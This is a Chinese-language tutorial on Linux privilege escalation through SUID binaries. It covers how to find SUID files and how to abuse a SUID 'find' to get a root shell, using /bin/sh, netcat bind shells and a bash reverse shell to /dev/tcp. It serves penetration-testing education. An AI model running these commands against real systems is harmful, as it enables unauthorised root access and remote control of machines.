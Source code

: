 下载脚本：linux-exploit-suggester  
#### 1、SUID提权  
##### 什么是suid  
  
SUID（Set User ID）是一种文件属性，它允许文件（通常是二进制可执行文件）在执行时以文件所有者（root）的权限运行，而不是执行它的用户的权限。这种属性通常用于允许普通用户以管理员权限执行某些操作，而无需管理员密码。  
##### 收集具有SUID权限的文件  

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;

```

  
以find / -perm -u=s -type f 2>/dev/null为例子：  

```
find：这是一个用于在文件系统中搜索文件的工具。
/：搜索的起始点，即根目录。
-perm -u=s：这是匹配的权限模式。-u=s 专门查找设置了用户 SUID 位的文件。
-type f：这指定搜索应该只包括文件（f）。
2>/dev/null：这是一个重定向，将任何错误消息（2>）发送到 /dev/null，从而有效地丢弃它们，因此命令不会在终端输出任何错误消息。

```

  
小知识点：Shell 输入/输出重定向  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXqEfLCMAdKQZmDfMayMNd0ichXkWYFibU7LibkiaXRB1iazNxIb0lfSp8Oiag/640?wx_fmt=jpeg&from=appmsg "")  
##### find  
  
如果Find命令也是以Suid权限运行的话，则将通过find执行的所有命令都会以root权限执行。  

```
#进入shell：
find /etc/passwd -exec '/bin/sh' \;

#nc正向连接shell：
find user -exec nc -lvp 4444 -e '/bin/sh' \;

#nc反弹shell：
find user -exec bash -c 'bash -i >& /dev/tcp/ip/4444 0>&1' \;

```

  
大部分Linux操作系统都安装了netcat，因此也可以被利用来将权限提升至root。  

```
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;

```

  
连接上去就会直接获取到一个Root权限的shell。  
